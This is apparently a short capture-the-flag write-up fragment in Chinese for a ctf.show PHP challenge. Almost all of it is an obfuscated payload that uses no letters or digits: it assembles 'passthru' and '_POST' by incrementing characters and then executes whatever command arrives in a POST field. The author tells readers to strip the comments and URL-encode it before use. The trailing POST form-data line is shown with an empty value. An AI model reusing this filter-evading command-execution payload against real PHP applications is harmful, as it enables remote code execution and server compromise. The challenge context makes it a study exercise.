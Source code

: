 这里直接用disable的漏网之鱼`passthru`进行命令执行

payload：用的时候要把注释内容删去，并且进行url编码

```php
$_=<<<_
C
_;
$__=<<<C
_
C;

$_++;$_++;
$_++;$_++;
$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$___=$_[1]; // A

$_0=$___; // a
$___++;$_1=$___; // b
$___++;$_2=$___; // c
$___++;$_3=$___; // d
$___++;$__1=$___; // e
$___++;$__2=$___; // f
$___++;$__3=$___; // g
$___++;$___1=$___; // h
$___++;$___2=$___; // i
$___++;$___3=$___; // j
$___++;$____1=$___; // k
$___++;$____2=$___; // l
$___++;$____3=$___; // m
$___++;$_____1=$___; // n
$___++;$_____2=$___; // o
$___++;$_____3=$___; // p
$___++;$______1=$___; // q
$___++;$______2=$___; // r
$___++;$______3=$___; // s
$___++;$_______1=$___; // t
$___++;$_______2=$___; // u
$___++;$_______3=$___; // v
$___++;$________1=$___; // w
$___++;$________2=$___; // x
$___++;$________3=$___; // y
$___++;$_________1=$___; // z

$_01=$_____3.$_0.$______3.$______3.$_______1.$___1.$______2.$_______2;//passthru
$_02=$__.$_____3.$_____2.$______3.$_______1; //_post
$__=$$_02;
$_01($__[_]);
```

post的表单数据：

```html
ctf_show=
```